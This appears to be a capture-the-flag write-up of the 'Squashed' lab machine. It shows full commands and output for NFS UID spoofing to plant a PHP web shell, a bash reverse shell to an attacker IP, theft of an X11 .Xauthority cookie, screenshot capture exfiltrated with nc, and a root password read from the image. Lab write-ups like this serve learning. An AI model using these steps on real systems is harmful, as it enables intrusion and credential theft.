






# Squashed
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.191 -T4                                                                                          
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-31 14:22 BST
Nmap scan report for 10.10.11.191 (10.10.11.191)
Host is up (0.14s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
38053/tcp open  unknown
47709/tcp open  unknown
52131/tcp open  unknown
57917/tcp open  unknown

```
```
└─$ nmap -Pn -p22,80,111,2049,38053,47709,52131,57917 -sC -sV 10.10.11.191 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-31 14:33 BST
Nmap scan report for 10.10.11.191 (10.10.11.191)
Host is up (0.15s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Built Better
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      37895/udp   mountd
|   100005  1,2,3      39773/tcp6  mountd
|   100005  1,2,3      47709/tcp   mountd
|   100005  1,2,3      52511/udp6  mountd
|   100021  1,3,4      38053/tcp   nlockmgr
|   100021  1,3,4      42869/tcp6  nlockmgr
|   100021  1,3,4      43633/udp   nlockmgr
|   100021  1,3,4      53905/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
38053/tcp open  nlockmgr 1-4 (RPC #100021)
47709/tcp open  mountd   1-3 (RPC #100005)
52131/tcp open  mountd   1-3 (RPC #100005)
57917/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- Web Server



- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.191/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php --no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.191/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/08/31 14:38:05 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.10.11.191/images/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.191/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.191/js/]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 661614 / 661683 (99.99%)

```

- `nfs`
```
└─$ showmount -e 10.10.11.191
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```

## Foothold
- Let's mount `/home/ross/`
```
└─$ sudo mount -t nfs 10.10.11.191:/home/ross /mnt/nfs
```
```
└─$ tree -aL 2 /mnt/nfs
/mnt/nfs
├── .bash_history -> /dev/null
├── .cache  [error opening dir]
├── .config  [error opening dir]
├── Desktop
├── Documents
│   └── Passwords.kdbx
├── Downloads
├── .gnupg  [error opening dir]
├── .local  [error opening dir]
├── Music
├── Pictures
├── Public
├── Templates
├── Videos
├── .viminfo -> /dev/null
├── .Xauthority
├── .xsession-errors
└── .xsession-errors.old

```
- Let's check `/var/www/html`
```
└─$ sudo mount -t nfs 10.10.11.191:/var/www/html /mnt/nfs
mount.nfs: access denied by server while mounting 10.10.11.191:/var/www/html
```
- So I receive `permission denied` error
  - 
```
└─$ ls -lha /mnt/nfs
ls: cannot access '/mnt/nfs/.': Permission denied
ls: cannot access '/mnt/nfs/..': Permission denied
ls: cannot access '/mnt/nfs/.htaccess': Permission denied
ls: cannot access '/mnt/nfs/index.html': Permission denied
ls: cannot access '/mnt/nfs/images': Permission denied
ls: cannot access '/mnt/nfs/css': Permission denied
ls: cannot access '/mnt/nfs/js': Permission denied
total 0
d????????? ? ? ? ?            ? .
d????????? ? ? ? ?            ? ..
?????????? ? ? ? ?            ? css
?????????? ? ? ? ?            ? .htaccess
?????????? ? ? ? ?            ? images
?????????? ? ? ? ?            ? index.html
?????????? ? ? ? ?            ? js
```
- Suprisingly, the directory itself belongs to `www-data` group and owned by user with `userid` `2017`
```
└─$ ls -ld /mnt/nfs
drwxr-xr-- 5 2017 www-data 4096 Aug 31 16:10 /mnt/nfs
```
- So I didn't know that `nfs` doesn’t track `users` and `groups` across machines. 
  - It just knows the `ID`s, and uses the local system for that. 
  - So we can create locally a user with that `UID` and using that user you will be able to access the file/folder
  - https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting#permissions
  - So let's do it



- Now we can access the directory
  - We can also write to that directory



- Let's create a web shell
  - I don't know if it's running `php` or not, so I just created basic `php` webshell
  - And it looks like it works


- Let's get reverse shell
  - `bash -c 'bash -i >& /dev/tcp/10.10.16.4/6666 0>&1'`
  - We need to url-encode `&` with `%26`



## Root
- We see that `ross` is logged in
```
alex@squashed:/tmp$ w
 15:53:04 up  2:31,  1 user,  load average: 0.00, 0.06, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               13:21    2:31m 13.30s  0.06s /usr/libexec/gnome-session-binary --systemd --session=gnome
```
- We saw `.Xauthority` file inside `ross`'s home directory
  - https://stackoverflow.com/questions/37157097/how-does-x11-authorization-work-mit-magic-cookie/37367518#37367518
  - We can access it by changing `UID` of our `dummy` user
    - `sudo usermod -u 1001 dummy`

```
└─$ xxd /mnt/nfs/.Xauthority
00000000: 0100 000c 7371 7561 7368 6564 2e68 7462  ....squashed.htb
00000010: 0001 3000 124d 4954 2d4d 4147 4943 2d43  ..0..MIT-MAGIC-C
00000020: 4f4f 4b49 452d 3100 1020 1a8f 403f 44bf  OOKIE-1.. ..@?D.
00000030: 0dd6 d2e8 6cc0 a13a 32                   ....l..:2
```

- If check the [post](https://stackoverflow.com/questions/37157097/how-does-x11-authorization-work-mit-magic-cookie/37367518#37367518) we can see that
  - `the 2nd, 3rd and 4th mechanisms store the keys inside ~/.Xauthority therefore anyone who has access to this file, can connect to the server pretending to be "you"`



- Let's download `.Xauthority` file as `alex`
```
alex@squashed:/tmp$ curl http://10.10.16.4/.Xauthority -o /tmp/.Xauthority 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    57  100    57    0     0     94      0 --:--:-- --:--:-- --:--:--    94
alex@squashed:/tmp$ ls -lha
total 16K
drwxrwxrwt  3 root root 4.0K Aug 31 16:03 .
drwxr-xr-x 20 root root 4.0K Oct 21  2022 ..
-rw-r--r--  1 alex alex   57 Aug 31 16:03 .Xauthority
drwx------  2 alex alex 4.0K Aug 31 15:41 tmux-2017
```
- We follow [hacktricks post](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11#screenshots-capturing)
  - We need `xdpyinfo` and `xwininfo` for enumeration
    - `XAUTHORITY=/tmp/.Xauthority xwininfo -root -tree -display :0`
    - `XAUTHORITY=/tmp/.Xauthority xdpyinfo -display :0`
  - both of the tools connected
  - But I need only `xmininfo` since it showed interesting windows `Passwords - KeePassXC`
  - We saw `Passwords.kdbx` in `ross`'s home directory

```
alex@squashed:/tmp$ XAUTHORITY=/tmp/.Xauthority xwininfo -root -tree -display :0

xwininfo: Window id: 0x533 (the root window) (has no name)

  Root window id: 0x533 (the root window) (has no name)
  Parent window id: 0x0 (none)
     26 children:
     0x80000b "gnome-shell": ("gnome-shell" "Gnome-shell")  1x1+-200+-200  +-200+-200
        1 child:
        0x80000c (has no name): ()  1x1+-1+-1  +-201+-201
     0x800022 (has no name): ()  802x575+-1+26  +-1+26
        1 child:
        0x1a00006 "Passwords - KeePassXC": ("keepassxc" "keepassxc")  800x536+1+38  +0+64
           1 child:
           0x1a000fe "Qt NET_WM User Time Window": ()  1x1+-1+-1  +-1+63
     0x1a00008 "Qt Client Leader Window": ()  1x1+0+0  +0+0
     0x800017 (has no name): ()  1x1+-1+-1  +-1+-1
     0x2200001 "gsd-keyboard": ("gsd-keyboard" "Gsd-keyboard")  10x10+10+10  +10+10
     0x1e00001 "keepassxc": ("keepassxc" "Keepassxc")  10x10+10+10  +10+10
     0x1c00001 "evolution-alarm-notify": ("evolution-alarm-notify" "Evolution-alarm-notify")  10x10+10+10  +10+10
     0x1a00004 "Qt Selection Owner for keepassxc": ()  3x3+0+0  +0+0
     0x1800001 "gsd-power": ("gsd-power" "Gsd-power")  10x10+10+10  +10+10
     0x1200002 (has no name): ()  10x10+0+0  +0+0
     0x1600001 "gsd-wacom": ("gsd-wacom" "Gsd-wacom")  10x10+10+10  +10+10
     0x1400001 "gsd-color": ("gsd-color" "Gsd-color")  10x10+10+10  +10+10
     0x1200001 "gsd-xsettings": ("gsd-xsettings" "Gsd-xsettings")  10x10+10+10  +10+10
     0x1000001 "gsd-media-keys": ("gsd-media-keys" "Gsd-media-keys")  10x10+10+10  +10+10
     0xc00003 "ibus-xim": ()  1x1+0+0  +0+0
        1 child:
        0xc00004 (has no name): ()  1x1+-1+-1  +-1+-1
     0xc00001 "ibus-x11": ("ibus-x11" "Ibus-x11")  10x10+10+10  +10+10
     0xa00001 "ibus-extension-gtk3": ("ibus-extension-gtk3" "Ibus-extension-gtk3")  10x10+10+10  +10+10
     0x800011 (has no name): ()  1x1+-100+-100  +-100+-100
     0x80000f (has no name): ()  1x1+-1+-1  +-1+-1
     0x800009 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800008 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800007 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800006 "GNOME Shell": ()  1x1+-100+-100  +-100+-100
     0x800001 "gnome-shell": ("gnome-shell" "Gnome-shell")  10x10+10+10  +10+10
     0x600008 (has no name): ()  1x1+-100+-100  +-100+-100
     0x800010 "mutter guard window": ()  800x600+0+0  +0+0
```
- Let's try [capturing screenshots](https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11#screenshots-capturing)
  - `XAUTHORITY=/tmp/.Xauthority xwd -root -screen -silent -display :0 > /tmp/screenshot.xwd`
```
alex@squashed:/tmp$ XAUTHORITY=/tmp/.Xauthority xwd -root -screen -silent -display :0 > /tmp/screenshot.xwd
alex@squashed:/tmp$ ls -lha
total 1.9M
drwxrwxrwt  3 root root 4.0K Aug 31 16:10 .
drwxr-xr-x 20 root root 4.0K Oct 21  2022 ..
-rw-r--r--  1 alex alex   57 Aug 31 16:03 .Xauthority
-rw-r--r--  1 alex alex 1.9M Aug 31 16:10 screenshot.xwd
drwx------  2 alex alex 4.0K Aug 31 15:41 tmux-2017
alex@squashed:/tmp$ file screenshot.xwd 
screenshot.xwd: XWD X Window Dump image data, "xwdump", 800x600x24
```
- Now we need to download the screenshot and convert it to image
  - I'll do it using `nc` listener
  - Start one on my attack box
```
└─$ nc -lvnp 7777 > screenshot.xwd
listening on [any] 7777 ...
```
- Pipe the content of the screenshot to `nc` connecting to my attack box
```
alex@squashed:/tmp$ cat screenshot.xwd | nc 10.10.16.4 7777
```
- Check the listner
  - We just wait a few seconds and then `CTRL+C`
```
└─$ nc -lvnp 7777 > screenshot.xwd
listening on [any] 7777 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.191] 60712
^C
```
- Check the file with `md5sum`
```
alex@squashed:/tmp$ md5sum screenshot.xwd 
49aab38d7e75be91ba868d753ecd033e  screenshot.xwd
```
```
└─$ md5sum screenshot.xwd                                                                                      
49aab38d7e75be91ba868d753ecd033e  screenshot.xwd
```
- Everything looks fine
  - Let's convert it using `imagemagick`
```
└─$ convert screenshot.xwd screenshot.png
└─$ file screenshot.png 
screenshot.png: PNG image data, 800 x 600, 8-bit/color RGB, non-interlaced
```

- Now we can `su` to `root` since we have a password from screenshot
  - `root:cah$mei7rai9A`




